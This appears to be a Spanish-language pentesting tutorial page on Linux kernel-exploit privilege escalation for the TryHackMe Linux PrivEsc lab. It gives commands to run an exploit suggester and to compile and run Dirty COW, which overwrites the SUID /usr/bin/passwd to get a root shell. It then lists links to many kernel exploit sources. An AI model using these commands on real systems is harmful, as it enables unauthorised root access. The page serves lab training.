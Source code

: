# Kernel Exploit

Las vulnerabilidades del kernel pueden dejar el sistema en un estado inestable, por lo que solo debes ejecutarlas como último recurso.

Ejecuta la herramienta Linux Exploit Suggester 2 para identificar posibles exploits del kernel en el sistema actual:

[linux-exploit-suggester | Kali Linux Tools](https://www.kali.org/tools/linux-exploit-suggester/)

```bash
linux-exploit-suggester-2.pl
```

Por ejemplo en [TryHackMe | Linux PrivEsc](https://tryhackme.com/r/room/linuxprivesc) debería aparecer listado el exploit del kernel de Linux "Dirty COW".&#x20;

Este reemplaza el archivo SUID /usr/bin/passwd por uno que genera una shell (se hace una copia de seguridad de /usr/bin/passwd en /tmp/bak).

Compila el código y ejecútalo:

```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w ./c0w
```

Una vez que se complete el exploit, ejecuta /usr/bin/passwd para obtener una shell de root:

```bash
/usr/bin/passwd
```

Antes de salir del root deberas restaurar el archivo original /usr/bin/passwd y salir de la shell de root.

```bash
mv /tmp/bak /usr/bin/passwd
exit
```

#### Lista

[Linux Kernel < 2.6.37-rc2 ACPI custom\_method Privilege Escalation](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C0\_\_TO\_\_\_2%2C6%2C36.c)\
[Linux Kernel - 5.8 < 5.16.11 - Local Privilege Escalation (DirtyPipe)](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_\_5%2C8%2C0\_\_TO\_\_5%2C16%2C11.c)\
[Linux Kernel - 2.4.20 To 2.4.27 mremap missing do\_munmap return check kernel exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C4%2C20\_\_TO\_\_2%2C4%2C27.c)\
[Linux Kernel - 2.4.29 uselib VMA insert race vulnerability](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C4%2C29.c)\
[Linux Kernel < 2.6.36-rc6 pktcdvd Kernel Memory Disclosure](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C0\_\_TO\_\_\_2%2C6%2C36.c)\
[Linux Kernel < 2.6.36.2 Econet Privilege Escalation Exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_\_2%2C6%2C0\_\_TO\_\_2%2C6%2C36.c)\
[Linux Kernel < 2.6.11 Local integer overflow Exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C5\_\_TO\_\_2%2C6%2C11.c)\
[Linux Kernel - 2.6.0-2.6.16 Local Race](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C8\_\_TO\_\_2%2C6%2C16.c)\
[Linux kernel < 2.6.22 open/ftruncate local exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C11\_\_TO\_\_2%2C6%2C22.c)\
[Linux Kernel < 2.6.36-rc1 CAN BCM Privilege Escalation Exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C18\_\_TO\_\_2%2C6%2C36.c)\
[Linux Kernel - 2.6.28 To 3.7.6 \_X86\_MSR Exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C18\_\_TO\_\_3%2C7%2C6.c)\
[Linux kernel <2.6.29 exit\_notify() local root exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C25\_\_TO\_\_2%2C6%2C29.sh)\
[Linux Kernel- 2.6.34 To 2.6.36 CAP\_SYS\_ADMIN to root exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C34\_\_TO\_\_2%2C6%2C36.c)\
[Linux Kernel - 3.0 To 3.8.9 perf\_swevent\_init Local root exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_3%2C0%2C0\_\_TO\_\_3%2C8%2C9.c)\
[Linux Kernel - 3.4.0 To 3.13.1 CVE-2014-0038](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_3%2C4%2C0\_\_TO\_\_3%2C13%2C1.c)\
[Linux Kernel- 3.8.0 To 3.13.1 CVE-2016-072 PP\_KEY](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_3%2C8%2C0\_\_TO\_\_3%2C13%2C1.c)
